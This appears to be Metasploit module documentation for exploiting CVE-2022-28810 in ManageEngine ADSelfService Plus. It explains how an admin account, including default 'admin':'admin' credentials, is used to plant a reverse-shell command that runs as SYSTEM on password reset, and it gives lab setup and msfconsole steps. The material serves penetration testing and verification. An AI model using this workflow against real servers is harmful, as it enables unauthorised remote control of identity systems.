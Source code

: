 ## Vulnerable Application

### Description

This module exploits the "custom script" feature of ADSelfService Plus. The
feature was removed in build 6122 as part of the patch for CVE-2022-28810.
For purposes of this module, a "custom script" is arbitrary operating system
command execution. As written, this module uses `cmd.exe` to execute `jjs.exe`
and retrieve a reverse shell.

This module uses an attacker provided "admin" account to insert the malicious
payload into the custom script fields. When a user resets their password or
unlocks their account, the payload in the custom script will be executed.
The payload will be executed as SYSTEM if ADSelfService Plus is installed as
a service, which we believe is the normal operational behavior.

This is a passive module because user interaction is required to trigger the
payload. This module also does not automatically remove the malicious code from
the remote target. Use the "TARGET_RESET" operation to remove the malicious
custom script when you are done.

ADSelfService Plus uses default credentials of "admin":"admin"

### Setup

Follow the [Getting Started] guide. You will need an AD environment and at least two
accounts: an AD admin for ADSelfService Plus and a test account to enroll in the
service. The service runs on Windows (any it seems - I tested on Windows 10), so
you'll need that.

1. Prepare a Windows environment to install on.
1. Download [ManageEngine_ADSelfService_Plus_64bit.exe] build 6121
1. Run the installer (skip registeration). Do **not** "Start ADSelfService Plus in console mode".
1. Run the service installer (start menu -> "Install ADSelfService Plus as Service")
1. Start the service (services -> "ManageEngine ADSelfService Plus")
1. Nagivate to the web server: http://localhost:8888 (may take a few minutes to load)
1. Log in as "admin" (password: admin)
1. Connect the AD DC: enter the domain name and hit discover. Provide credentials when prompted.
1. Enroll users via "Configuration" -> "Administration Tools" -> "Quick Enrollment" ->
"Import Users from CSV". Download the "sample.csv, edit it with your test user and
upload it." Also use "Import" -> "Answer" in the drop down.
1. Logout from the admin account and log in as the newly enrolled user to configure
the secret question responses. Once completed the test user should be fully enrolled
and ready for hax.
1. You may need to open up port 8888 on the firewall. I've encountered ADSSP forgetting to do so.

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6121/ManageEngine_ADSelfService_Plus_64bit.exe

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/windows/http/manageengine_adselfservice_plus_cve_2022_28810`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module is waiting for a reverse TCP connection
* Navigate to the ADSelfService Plus web UI and reset your test users password.
* After a new password has been set verify the module received a reverse shell.
* Exit the shell
* Do `set TARGET_RESET true`
* Do `run`
* Navigate to the ADSelfService Plus web UI, log in as admin, and verify that the custom
scripts have been removed and disabled ("Configuration" -> "Self Service" ->
"Policy Configuration" -> "Advanced" -> "Password Sync")